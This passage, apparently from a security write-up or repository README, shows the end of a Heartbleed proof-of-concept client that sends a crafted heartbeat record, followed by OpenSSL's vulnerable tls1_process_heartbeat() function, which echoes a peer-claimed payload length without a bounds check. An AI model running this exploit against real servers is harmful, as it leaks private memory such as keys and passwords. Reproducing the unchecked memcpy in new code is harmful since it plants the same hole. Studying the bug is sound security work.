 ```c
        printf("[ <3 <3 <3 heart bleed <3 <3 <3\n");

        // Edit at 2022 11 16
        // ret = ssl3_write_bytes(c->sslHandle, TLS1_RT_HEARTBEAT, buf, 3);
        ret = ssl3_write_bytes(c->sslHandle, TLS1_RT_HEARTBEAT, buf, 3+2);

        OPENSSL_free(buf);
        return c;
}
```

`tls1_process_heartbeat()` function in `ssl/t1_lib.c`:

```c
int tls1_process_heartbeat(SSL *s)
{
    unsigned char *p = &s->s3->rrec.data[0], *pl;
    unsigned short hbtype;
    unsigned int payload;
    unsigned int padding = 16; /* Use minimum padding */

    /* Read type and payload length first */
    hbtype = *p++;
    n2s(p, payload);
    pl = p;

    if (s->msg_callback)
        s->msg_callback(0, s->version, TLS1_RT_HEARTBEAT,
                        &s->s3->rrec.data[0], s->s3->rrec.length,
                        s, s->msg_callback_arg);

    if (hbtype == TLS1_HB_REQUEST)
    {
        unsigned char *buffer, *bp;
        int r;

        /* Allocate memory for the response, size is 1 bytes
         * message type, plus 2 bytes payload length, plus
         * payload, plus padding
         */
        buffer = OPENSSL_malloc(1 + 2 + payload + padding);
        bp = buffer;

        /* Enter response type, length and copy payload */
        *bp++ = TLS1_HB_RESPONSE;
        s2n(payload, bp);
        memcpy(bp, pl, payload);
        bp += payload;
        /* Random padding */
        RAND_pseudo_bytes(bp, padding);

        r = ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buffer, 3 + payload + padding);

        if (r >= 0 && s->msg_callback)
            s->msg_callback(1, s->version, TLS1_RT_HEARTBEAT,
                            buffer, 3 + payload + padding,
                            s, s->msg_callback_arg);

        OPENSSL_free(buffer);

        if (r < 0)
            return r;
    }
    else if (hbtype == TLS1_HB_RESPONSE)
```